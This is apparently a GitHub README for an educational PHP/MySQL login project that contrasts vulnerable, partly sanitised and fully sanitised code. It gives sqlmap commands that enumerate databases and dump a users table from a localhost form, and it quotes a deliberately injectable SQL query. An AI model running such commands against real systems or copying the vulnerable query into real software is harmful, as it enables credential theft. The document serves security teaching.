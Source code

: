 <h1 align="center">Secure Login System</h1>

We created a login system, for the backend we use PHP and MySQL for the database and on the frontend we used HTML/CSS. 
The purpose of this project is to show how code becomes vulnerable to SQL injection.
We will analyze and perform SQL Injection attacks and Cross-Site Scripting attacks to see how they work when we do not secure the appropriate code. 
We'll use some attack tools like SQLMap. 

The project has three parts:

1.Secure Login System with Non-Sanitizing Code
Attacks like SQL Injection work here, as well as attacks like Cross-Site Scripting (XSS).
    This code is intentionally vulnerable to demonstrate:

    How legacy PHP applications become vulnerable
    Why string concatenation in SQL is dangerous
    How sqlmap and other tools exploit these weaknesses
    The importance of modern PHP security practices

2.Secure Login System with Partial Sanitizing Code
Attacks like SQL Injection don't work here, but there are some vulnerabilities related to Cross-Site Scripting (XSS).

3.Secure Login System with Complete Sanitizing Code
In this part, we have protected the code against both threats. Also, I will show you how to implement CAPTCHA for brute force protection.

![Sqlmap](https://raw.githubusercontent.com/cipriancyberspace/securewebapplication/99e7e8d24c04397303853220b9ae101d9e12e940/Secure_Login_System/images/sqlmap.png)



Sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. 
It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, 
over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/ee5612aa8bd9970e35df345d5f98699db35a3003/Secure_Login_System/images/sqlmap_1.png)

<strong> 1.SQLMap Command Breakdown: </strong>
<pre> <code>sqlmap -u "http://localhost/secureloginsystem/vulnerable_login_form.php" --data="username=test&password=test" --dbs --batch</code> </pre>

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/1bf4ec6c5278162c33acfffa401df1ce9bfb6bfb/Secure_Login_System/images/sqlmap_3.png)

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/eff2084c859e84b41a33be3071eaf471de9b0d7e/Secure_Login_System/images/sqlmap_2.png)

<strong> 2.Explore your database: </strong>
<pre> <code>sqlmap -u "http://localhost/secureloginsystem/vulnerable_login_form.php" \
       --data="username=test&password=test" \
       -D test_db --tables --batch</code> </pre>

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/9086268e64a0716507f5dc933ce2bfb70513775b/Secure_Login_System/images/sqlmap_4.png)

<strong> 3.Dump user data: </strong>

<pre> <code>sqlmap -u "http://localhost/secureloginsystem/vulnerable_login_form.php" \
       --data="username=test&password=test" \
       -D test_db -T users --dump --batch</code> </pre>

<strong> 4.Get database schema: </strong>

<pre> <code>sqlmap -u "http://localhost/secureloginsystem/vulnerable_login_form.php" \
       --data="username=test&password=test" \
       -D test_db -T users --columns --batch</code> </pre>



⚠️ Why This Works 
Vulnerable PHP code:
<pre> <code>$sql = "SELECT * FROM users WHERE username = '$user' AND password = '$pass'";</code> </pre>
SQLMap exploits this by injecting payloads that break out of the SQL query, allowing it to execute additional SQL commands to enumerate databases.



